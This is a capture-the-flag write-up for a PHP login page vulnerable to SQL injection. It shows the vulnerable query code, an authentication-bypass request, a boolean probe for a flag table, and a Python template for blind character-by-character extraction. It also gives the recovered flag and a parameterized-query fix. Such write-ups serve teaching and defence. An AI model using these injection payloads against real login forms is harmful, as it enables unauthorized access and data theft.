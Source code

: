 # WEB APPLICATION CTF Challenge Writeup

## Challenge Overview
**Target**: `http://15.237.112.58:8087/`
**Category**: Web application security challenge
**Task**: Identify and exploit the vulnerability to retrieve the flag, then submit a comprehensive report.

## Challenge Description
A web application with a Single page returning "wrong !" was found to be vulnerable to SQL injection. The challenge requires extracting a hidden flag from the database by exploiting the authentication mechanism.


## Vulnerability Analysis

### Vulnerable Code
```php
<?php
$user=$_GET['user'];
$pass=$_GET['pass'];
$sql = @mysqli_fetch_assoc(mysqli_query($db,
    "SELECT * FROM users WHERE username='{$user}' AND password='{$pass}';"
));
?>
```

### Security Issues
1. **Direct input concatenation** into SQL queries
2. **Insufficient input filtering** that can be bypassed
3. **No parameterized statements** used

## Exploitation Steps

### Step 1: Authentication Bypass
First, we confirm SQL injection vulnerability:

```http
GET /?user='OR'1'='1'OR'a&pass=test HTTP/1.1
```

**Response**: `welcome \o/` ✅

### Step 2: Identify Database Structure
Check if a `flag` table exists:

```http
GET /?user='OR(length((select*from(flag)))>0)OR'a&pass=test HTTP/1.1
```

**Response**: `welcome \o/` ✅


### Step 3: Character-by-Character Extraction
Using the payload structure that bypasses filters:

```python
payload = f"'OR(mid((select(flag)from(flag)),{position},1))='{char}'OR'a"
```


## Solution

### Extracted Flag
```
flag{n0_w4f_c4n_st0p_m3}
```


### CVSS 3.1 Assessment
- **Base Score**: 9.8 CRITICAL
- **Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Remediation Recommendations

### Immediate Actions
1. **Use parameterized queries**:
   ```php
   $stmt = $db->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
   $stmt->bind_param("ss", $user, $pass);
   ```



